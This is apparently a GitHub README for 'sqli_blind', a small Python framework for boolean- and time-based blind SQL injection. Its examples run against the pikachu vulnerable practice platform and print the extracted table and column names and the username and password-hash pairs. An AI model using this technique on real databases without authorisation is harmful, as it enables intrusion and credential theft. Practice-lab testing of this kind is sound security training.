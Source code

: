 # sqli_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sqli_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的盲注关卡开发，如有必要可以用这两个关卡进行测试。

# 环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py和sqli_tb.py的payload和部分参数   
2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
\>\>\> from sqli_blind import *
然后调用各函数即可

# 示例

## 布尔盲注

以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseBool()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesBool()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsBool()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is   USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentBool()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  

## 时间盲注

以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseTime()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesTime()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsTime()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is     USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentTime()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  
